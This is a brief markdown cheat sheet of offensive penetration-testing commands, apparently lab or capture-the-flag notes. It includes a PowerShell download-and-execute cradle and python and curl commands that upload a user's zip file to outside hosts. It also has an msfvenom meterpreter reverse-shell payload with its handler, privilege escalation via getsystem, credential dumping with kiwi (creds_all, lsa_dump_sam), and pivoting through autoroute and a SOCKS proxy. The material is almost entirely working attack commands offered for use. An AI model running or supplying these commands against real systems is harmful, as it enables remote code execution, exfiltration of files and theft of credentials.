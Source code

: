 # HTTP
https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1
```bash
#powershell
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PSUpload.ps1');Invoke-FileUpload -Uri http://10.10.14.37/upload -File 

# linux
python3 -c "import requests;requests.post(\"http://10.10.14.68:8000/upload\",files={\"files\":open(\"/home/lnorgaard/RT30000.zip\",\"rb\")})"
curl -X POST http://10.10.14.68:8000/upload -F 'files=@/home/lnorgaard/RT30000.zip'
```


# Tips
## list
```bash
for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips
```

## Metasploit
```bash
# hundler
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=1234 -f exe -o shell.exe
use multi/handler
# sessions
sessions -l
sessions -i 1

# exploit suggest
use post/multi/recon/local_exploit_suggester

# privesc 
getsystem
migrate 

load kiwi
creds_all
lsa_dump_sam

# Port Forwading
use multi/manage/autoroute

use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
jobs

# other
lcd /home/kali/Downloads
lpwd
download 
upload
```
